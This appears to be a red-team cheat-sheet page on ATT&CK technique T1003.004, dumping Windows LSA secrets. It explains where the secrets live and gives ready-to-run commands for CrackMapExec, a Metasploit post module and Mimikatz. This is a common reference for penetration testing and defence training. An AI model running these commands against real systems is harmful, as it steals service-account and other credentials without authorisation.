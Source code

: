 ```yaml
---
description: https://attack.mitre.org/techniques/T1003/004/
---
```


# LSA Secrets

**ATT\&CK ID:** [T1003.004](https://attack.mitre.org/techniques/T1003/004/)

**Permissions Required:** <mark style="color:red;">**SYSTEM**</mark>

**Description**

Adversaries with SYSTEM access to a host may attempt to access Local Security Authority (LSA) secrets, which can contain a variety of different credential materials, such as credentials for service accounts. LSA secrets are stored in the registry at `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. LSA secrets can also be dumped from memory.

## Techniques

### Crackmapexec

```bash
crackmapexec smb '10.10.10.100' -u 'moe' -p 'Password123' --lsa
```

![](<../../../../.gitbook/assets/image (464).png>)

### Metasploit

```
use post/windows/gather/lsa_secrets
```

![](<../../../../.gitbook/assets/image (262).png>)

### Mimikatz

```powershell
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

![](../../../../.gitbook/assets/Mimikatz-lsa-dumpsecrets.png)
